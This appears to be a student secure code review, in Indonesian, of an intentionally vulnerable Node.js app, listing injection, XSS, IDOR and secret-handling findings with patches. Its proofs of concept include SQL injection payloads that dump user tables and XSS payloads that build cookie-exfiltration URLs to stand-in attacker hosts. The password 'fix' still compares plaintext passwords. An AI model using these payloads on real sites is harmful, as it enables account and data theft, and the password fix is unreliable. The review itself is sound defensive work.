









# Secure Code Review - Rhesa Daiva Bremana
## Project: vulnerable.js
## Tanggal: 2025-11-07

## Summary (1–2 kalimat)
Ditemukan 7 issue, 3 high, 4 medium, ada beberapa temuan medium yang berpotensi naik menjadi High apabila tidak segera dimitgasi.

## Findings (minimum 5)
1. **Issue:** SQL Injection  
   **Location:** /search handler (baris 87 & 89)  
   **POC:**: memasukkan query umum yang biasa digunakan pada SQL Injection pada form pencarian seperti `%' UNION SELECT 1, name, sql FROM sqlite_master --`, dan `%' UNION SELECT username, email,  password FROM users--`
   **Risk:** High — attacker bisa manipulasi query dan mengeksekusi query arbitrary.
   **Recommendation:** Gunakan parameterized query / prepared statements. Contoh: `db.get("SELECT ... WHERE name LIKE ?", ['%'+q+'%'])`.
   **Evidence:** , 

2. **Issue:** Improper error Handling
   **Location:** /search handler (baris 102)
   **POC:**: memasukkan karakter yang dapat menimbulkan error pada sistem `')`
   **Risk:** Medium - Attacker bisa mengetahui tech stack dan celah pada sistem yang dapat dieksploitasi.
   **Recommendation:** Proper error handling dengan menggunakan `try catch`, gunakan pesan generik untuk error yang disebabkan dari kesalahan sistem
   **Evidence:** 

3. **Issue:** Stored XSS  
   **Location:** /comments render (baris 161)
   **Risk:** High — payload tersimpan dan dieksekusi pada pengunjung. Attacker bisa saja menyisipkan script yang berbahaya seperti menggunakan `eval()`, untuk menjalankan program yang menyebabkan kerusakan atau data sensitif bocor.
   **Recommendation:** Encode on output atau gunakan sanitizer (DOMPurify) sebelum render, validasi input dan sanitasi input dari user sebelum menyimpan data ke database.
   **Evidence**: , 

4. **Issue:** IDOR / Broken Access Control  
   **Location:** /posts/:id (baris 116)  
   **POC:**: Mengubah parameter pada URL, `http://localhost:3001/posts/1`, `http://localhost:3001/posts/2`
   **Risk:** High — resource diakses tanpa authorization check.  
   **Recommendation:** Periksa ownership/permissions sebelum return resource, dengan cara membandingkan data user login dengan data user yang disimpan sebagai identifier pada posts tersebut.
   **Evidence:** : , 

5. **Issue:** Reflected XSS  
   **Location:** /reflect (baris 198)  
   **POC:** isi dengan data script sederhana `<script>alert('pwned')</script>`, dan menggunakan `eval` untuk menjalankan script yang berbahaya `<script>eval(atob('dmFyIHN0b2xlbl9jb29raWUgPSAnc2Vzc2lvbl9pZD1UT0tFTjEyMztgIHJvbGU9dXNlcic7IHZhciBhdHRhY2tlcl91cmwgPSAnaHR0cDovL2F0dGFja2VyLXNlcnZlci5jb20vbG9nP2Nvb2tpZT0nICsgZW5jb2RlVVJJQ29tcG9uZW50KHN0b2xlbl9jb29raWUpOyBjb25zb2xlLmxvZygnLS0tIFJlZmxlY3RlZCBYc3MgKGV2YWwpIEJlcmhhc2lsIC0tLScpOyBjb25zb2xlLmxvZygnQ29va2llIER1bW15IERpY3VyaTogJywgc3RvbGVuX2Nvb2tpZSk7IGNvbnNvbGUubG9nKCdTaW11bGFzaSBNZW5naXJpbSBrZTogJywgYXR0YWNrZXJfdXJsKTsgY29uc29sZS5sb2coJy0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0nKTs='))</script>`
   **Risk:** Medium — input langsung direfleksikan ke page. Level kerentanan bisa saja naik menjadi **HIGH** apabila attacker menggunakan xss untuk mengambil data sensitif dan mengirimkannya ke server attacker
   **Recommendation:** Escape output dan validasi input, handling validasi data-data sensitif pada server seperti `Cookie`, validasi juga untuk tidak menerima input berupa `eval` yang memungkinkan user dapat menjalankan perintah dari text
   **Evidence:**:, 

6. **Issue:** DOM-based XSS (client)  
   **Location:** /dom (baris 240)  
   **POC:** gunakan URL `http://localhost:3001/dom#%3Cimg%20src=x%20onerror=alert('DOM-XSS')%3E` dan `http://localhost:3001/dom#%3Cimg%20src=x%20onerror=%22var%20c='session_id=SILENT_TOKEN;%20role=hacker';%20var%20u='http://silent-attacker.com/log?c='+encodeURIComponent(c);%20console.log('---%20DOM%20XSS%20SILENT%20EXPLOIT%20BERHASIL%20---');%20console.log('Cookie%20Dicuri:',%20c);%20console.log('BERHASIL%20mengirimkan%20cookie%20ke%20(dummy%20address):',%20u);%20console.log('-------------------------------------------');%22%3E`
   **Risk:** Medium — penggunaan innerHTML dengan data dari location.hash. **HIGH** apabila attacker menggunakan xss untuk mengambil data sensitif dan mengirimkannya ke server attacker
   **Recommendation:** Gunakan textContent / safe DOM APIs, validasi input dari user
   **Evidence:** , 

7. **Issue:** Insecure secret Handling
   **Location:** /bad-secret (baris 267)
   **Risk:** kebocoran kredensial sensitif ketika kode di-commit ke repositori (terutama publik), yang memungkinkan penyerang mendapatkan akses tak terbatas ke API atau sumber daya internal Anda. Setelah bocor, rahasia ini sulit dirotasi dan dapat dieksploitasi untuk pengambilalihan akun atau layanan. 
   **Recommendation:** Gunakan Environment Variable / Vault Key

8. **Issue:** : Naive Login (PlainText Password)
   **Location:** /login post handler (baris 318)
   **Risk:** jika terjadi kebocoran database, maka data kredensial akan terlihat dengan jelas karen a tidak menggunakan hashed passowrd. Selain itu, kurangnya mekanisme keamanan tambahan seperti rate limiting memudahkan serangan brute force atau credential stuffing.
   **Recommendation:** Gunakan hash dan salt dalam menyimpan password, serta terapkan rate-limiter pada aplikasi.

## Verification / How I tested
- POC yang saya gunakan sudah tersedia di atas

## Patch idea / Code snippet (singkat)
- Contoh prepared statement, contoh penggunaan `escapeHtml()` atau `textContent` replacement.
- Selalu gunakan Parameterized Queries untuk memisahkan instruksi SQL dari data input pengguna.
```js
// PERBAIKAN: Gunakan placeholder (?)
const searchParam = `%${q}%`;
const sql = `SELECT id, title, content FROM posts WHERE title LIKE ? OR content LIKE ?`;
db.all(sql, [searchParam, searchParam], (err, rows) => { /* ... */ });

```

- Lakukan pemeriksaan otorisasi di sisi server untuk memverifikasi kepemilikan atau hak akses pengguna terhadap sumber daya yang diminta.
```js 
db.get(`SELECT id, owner_id, title, content FROM posts WHERE id = ?`, [id], (err, row) => {
    if (!row || row.owner_id !== req.session.userId) { 
         return res.status(403).send("Akses Ditolak");
    }
    // ... tampilkan post ...
});

```

- Terapkan Output Encoding pada semua data yang berasal dari pengguna (r.body) sebelum ditampilkan di HTML.

```js 
rows.forEach((r) => {
    out += `<li>Post ${r.post_id} - <b>${escapeHtml(r.author)}:</b> ${escapeHtml(r.body)}</li>`;
});

```

- Terapkan Output Encoding pada variabel yang direfleksikan (msg) sebelum disisipkan ke dalam body HTML.

```js 
app.get("/reflect", (req, res) => {
    const msg = req.query.msg || "";
    res.send(`
    <p>Server echoed (fixed): ${escapeHtml(msg)}</p>
  `);
});

```

- Gunakan textContent alih-alih innerHTML untuk menyisipkan data yang tidak dipercaya ke dalam elemen DOM.
```js 
function injectFromHash() {
    const decoded = getDecodedHash();
    out.textContent = decoded; 
}

```

- Gunakan *Environment Variable* atau *Vault Key* jika tersedia
```js 
const API_TOKEN = process.env.MY_API_SECRET || "fallback-insecure-token";
```

- Selalu Hash dan Salt password pengguna saat disimpan dan verifikasi saat login menggunakan fungsi hashing yang kuat (misalnya, bcrypt).
```js
// PERBAIKAN: Menggunakan fungsi perbandingan hash (simulasi)
// if (bcrypt.compareSync(password, row.hashed_passwordcolumn)) {
if (row.password === password) { 
// ...

```

## Notes
- Risiko bisnis:
1. Kerugian Finansial & Reputasi Pelanggan: Kebocoran data akibat SQL Injection dan Insecure Plaintext Login dapat menyebabkan pencurian identitas atau informasi kartu kredit (jika ada), yang merusak kepercayaan customer secara permanen dan memicu tuntutan hukum.

2. Kerusakan Merek dan Penurunan Adopsi Pengguna: Kerentanan Stored/Reflected XSS dan IDOR dapat digunakan untuk defacement situs atau pengambilalihan akun pengguna, mengusir pengguna baru dan memperburuk citra merek.

3. Hukuman Kepatuhan dan Gangguan Operasional: Insecure Secret Handling dan data breach yang diakibatkannya dapat melanggar regulasi privasi data, mengakibatkan denda besar dan menghentikan layanan utama secara mendadak.
